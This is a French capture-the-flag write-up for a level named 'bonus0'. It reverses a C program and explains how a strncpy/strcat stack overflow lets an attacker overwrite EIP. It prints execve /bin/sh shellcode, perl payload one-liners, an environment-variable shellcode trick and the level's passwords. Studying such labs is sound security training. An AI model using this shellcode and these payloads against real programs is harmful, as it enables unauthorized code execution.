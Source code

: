 # Bonus0

pass : `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`

## Sources :

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

void	p(char *str, char *sep) {
	char buf[4096];  // 0x1008 - 0x8
	puts(sep);
	read(stdin, buf, 4096);
	char *ptr = strchr(buf, '\n');
	*ptr = '\0';
	strncpy(str, buf, 20);  // 0x14
}

void	pp(char *buf) {
	char a[20];  // ebp-0x30
	p(a, " - ");

	char b[20];  // ebp-0x1c
	p(b, " - ");

	strcpy(buf, a);

	int i = 0;
	while (buf[i] != '\0') {
		i++;
	}
	buf[i] = ' ';

	strcat(buf, b);
}

int		main(int ac, char **av) {
	char buf[42];  // 0x40-0x16

	pp(buf);
	puts(buf);

	return (0);
}
```

## Recherche :

Le points d'entrés sont par les 2 calls à `read(stdin, buf, 4096)`.
`strcpy` copie la source dans la destination et rajoute `\0`
`strncpy` fait de même, mais si la taille est atteinte, il ne rajoute pas de `\0` à la fin de sa chaine.

Donc si le premier `read` fait exactement plus de 20 caractères, les 20 premiers caractères vont être copiés dans `a` sans rajouté de `\0` et comme la mémoire est contingente, `a` et `b` se suivent. `strcat` va donc dans `buf` `ab b`

`a` se trouve à l'adresse `0xbffff1e8`
`b` se trouve à l'adresse `0xbffff1fc`

On écrit donc `20 + 20 + 1 + 20` caractères dans `buf` qui dépasse les `42` aloués, et on écrit donc dans la stack.
Et quand on quitte le main, et qu'on déstack, on se retrouve à écrire dans `EIP` et le programme segfault.

```shell
./bonus0
 -
abcdefghijabcdefghij
 -
01234567890123456789
abcdefghijabcdefghij01234567890123456789 01234567890123456789
[1]    3889 segmentation fault  ./bonus0
```

Avec gdb, c'est plus clair, et on voit que `EIP` est réécrit au 13<sup>ème</sup> caractère du second `read`.

Notre shell code de 28 bytes:
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

Les 20 premiers caractères:
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0`
les 8 suivants:
`\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

l'adresse de buf: `0xbffff236`
```
./bonus0 < <(perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0"."\n"."A"x(4096-21)."\x0b\xcd\x80\x31\xc0\x40\xcd\x80"."\x90"x(13-8)."\x36\xf2\xff\xbf"."A"x(7-4)."\n"')
```

On va se créer un programme pour retrouver l'adresse de l'env.

getenv.c:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int ac, char **av) {
        char *ptr;

        ptr = getenv(av[1]);
        ptr += strlen(av[0]) - strlen(av[2]);

        printf("%s -- %p\n", av[1], ptr);
        return 0;
}
```
Et on copile avec `gcc getenv.c -o getenv`


On va mettre notre shell code dans une variable d'environnement en laissant un peu de place avant :

`export SHELLCODE="$(perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')"`


`export SHELLCODE="$(perl -e 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')`

En lançant `./getenv SHELLCODE ./bonus0`, on trouve `SHELLCODE -- 0xbffff90a`

```
perl -e 'print "A"x(4095)."\n"."B"x(9)."\x23\xf9\xff\xbf"."\n"' > /tmp/a;  cat /tmp/a - | ./bonus0
```

```
perl -e 'print "A"x4095 . "\n" . "B"x9 . "\x11\xf9\xff\xbf" . "B"x7 . "\n"' > /tmp/a ; cat /tmp/a - | ./bonus0
```

`cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`

## Exploit :

```sh

```
